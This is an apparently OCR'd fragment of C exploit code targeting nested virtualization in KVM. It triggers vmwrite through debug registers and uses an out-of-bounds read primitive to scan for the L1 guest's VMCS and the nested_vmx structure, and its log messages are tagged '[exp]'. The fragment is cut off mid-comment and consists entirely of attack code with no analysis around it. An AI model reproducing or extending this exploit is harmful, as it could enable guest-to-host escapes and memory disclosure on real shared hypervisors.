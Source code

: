 ```c

    native_set_debugreg(0, 0x1337babe);
    native_set_debugreg(1, offset);
    native_set_debugreg(2, value);
    asm volatile( "vmwrite %[value], %[field]\n\t"
          :
          : [field] "r" (vmwrite_field),
            [value] "r" (vmwrite_value) : );
}

#define IDT_BASE 0xfffffe0000000000ull

static noinline int find_l1_vmcs(uint64_t *l1_vmcs_offset) {
    unsigned long long pos_offset = 0, neg_offset = 0;
    uint64_t zero_val = 0, pos_val = 0, neg_val = 0;
    uint64_t found_val = 0, found_offset = 0;
    uint64_t i = 0;

    zero_val = read_guy(0ull);
    pr_info("vmcs12[0] = %llx\n", zero_val);

    // scan in each direction looking for the guest_idtr_base field of the l1 vm
    for (i = 0; i < 0x4000; i++) {
        // from attaching to the l1 guest, the address of guest_idtr_base always has 0x208 in the lower 3 nibbles
        pos_offset = ((i * 0x1000) + 0x208) / 8;
        neg_offset = ((i * -1 * 0x1000) + 0x208) / 8;

        pos_val = read_guy(pos_offset);
        if (pos_val == IDT_BASE) {
            found_val = pos_val;
            found_offset = pos_offset;
            break;
        }

        neg_val = read_guy(neg_offset);
        if (neg_val == IDT_BASE) {
            found_val = neg_val;
            found_offset = neg_offset;
            break;
        }

        if (i < 0x20) {
            pr_info("vmcs12[%llx * 8] = %llx\n", pos_offset, pos_val);
            pr_info("vmcs12[%llx * 8] = %llx\n", neg_offset, neg_val);
        }
    }
    if (found_val == 0) {
        pr_info("[exp]: IDT NOT FOUND :(\n");
        *l1_vmcs_offset = 0;
        return 0;
    } else {
        pr_info("[exp]: Found IDT in l1 at offset %lld; value: %llx\n", found_offset, found_val);
        *l1_vmcs_offset = found_offset;
        return 1;
    }
}

static noinline int find_nested_vmx(uint64_t *nested_vmx_offset) {
    // the nested_vmx struct contains two known values --
    //     the guest phys addrs of the vmxon_ptr and current_vmptr
    // finding this structure allows us to read the `cached_vmcs12` pointer
    // which is the host virtual address of our vmcs, based on that we can
```